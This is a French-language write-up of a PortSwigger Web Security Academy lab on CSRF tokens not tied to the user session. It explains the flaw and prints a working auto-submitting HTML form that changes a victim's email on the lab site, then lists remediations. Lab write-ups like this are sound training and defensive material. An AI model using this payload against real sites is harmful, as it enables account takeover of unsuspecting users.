




# CSRF where token is not tied to user session

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session

## Découvertes de la vulnérabilité

- Le site propose un formulaire « Update email » pour modifier l’adresse e-mail du compte.  
- Ce formulaire contient un jeton CSRF, mais ce jeton **n’est pas lié à la session de l’utilisateur**.  
- Un attaquant peut donc récupérer un jeton via un compte qu’il contrôle, puis l’utiliser dans un exploit pour modifier l’e-mail d’un autre utilisateur (victime), sans que cette dernière n’intervienne.

## Preuves / Captures d’écran









## Résultat

En utilisant l’exploit :  
- Le jeton CSRF intercepté (et non consommé) a été injecté dans un formulaire auto-soumis.  
- L’exploit a été hébergé via l’“exploit server”.  
- Lors de l’ouverture par la victime (session active), l’e-mail a été modifié automatiquement.  
- Le labo est validé — la vulnérabilité CSRF a été exploitée avec succès.

## Exploit HTML utilisé

```html
<html>
  <body>
    <form action="https://0a15006404c059ce80851cf2008400fa.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="attacker-email@example.com">
      <input type="hidden" name="csrf" value="JETON_CSRF_VALIDE">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>


## Recommandations de sécurisation

- Lier le jeton CSRF à la session utilisateur (un token valable uniquement pour l’utilisateur authentifié).
- Générer un nouveau token CSRF à chaque chargement du formulaire et le rendre à usage unique.
- Bloquer toute requête sensible provenant d’un domaine externe via la vérification des en-têtes `Origin` / `Referer`.
- Utiliser les cookies de session configurés avec `SameSite=Lax` ou `SameSite=Strict`.
- Exiger systématiquement des requêtes POST pour les actions critiques (ex : changement d’e-mail).
